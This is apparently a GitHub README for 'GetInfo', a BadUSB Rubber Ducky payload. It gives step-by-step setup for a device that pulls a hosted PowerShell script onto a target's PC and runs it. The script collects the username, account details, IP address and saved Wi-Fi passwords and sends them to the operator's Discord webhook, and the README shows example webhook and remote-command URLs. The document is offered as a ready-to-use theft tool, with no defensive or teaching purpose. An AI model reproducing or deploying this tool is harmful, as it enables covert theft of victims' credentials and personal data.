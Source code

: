 # GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:

$hookUrl = "https://discord.com/api/webhooks/120056/HOw7_j7W-jMllc-uZMbCWq1DEYJUuKj"

$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository.


5.The updated RemoteHack.txt is your new payload file.
By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
